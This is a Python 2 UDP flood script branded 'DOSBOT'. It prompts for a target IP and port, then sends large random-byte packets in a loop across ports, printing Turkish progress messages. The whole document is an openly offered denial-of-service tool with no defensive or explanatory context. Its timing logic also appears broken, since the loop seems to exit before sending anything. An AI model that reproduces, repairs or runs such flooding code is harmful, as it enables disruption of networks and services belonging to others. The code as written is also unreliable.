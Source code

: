 import sys;
import os;
import time;
import socket;
import random;
from datetime import datetime;
now = datetime.now();
hour = now.hour;
minute = now.minute;
day = now.day;
month = now.month;
year = now.year;

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM);
bytes = random._urandom(10000);
timeout =  time.time();
os.system ("clear");
print ('''
\033[91m
_____   ____   _____ ____   ____ _______ 
 |  __ \ / __ \ / ____|  _ \ / __ \__   __|
 | |  | | |  | | (___ | |_) | |  | | | |   
 | |  | | |  | |\___ \|  _ <| |  | | | |   
 | |__| | |__| |____) | |_) | |__| | | |   
 |_____/ \____/|_____/|____/ \____/  |_|
''');

ip = raw_input("IP: ");
port = input("Port: ");

os.system("clear");
sent = 0;
while True:
  while 1:
    if time.time() > timeout:
      break;
    else:
      pass;
    sock.sendto(bytes, (ip,port));
    sent = sent + 1;
    port = port + 1;
    print "\033[92m%s. paket, %s adresine; %s portuyla gönderildi"%(sent,ip,port);
    if port == 65534:
      port = 1;
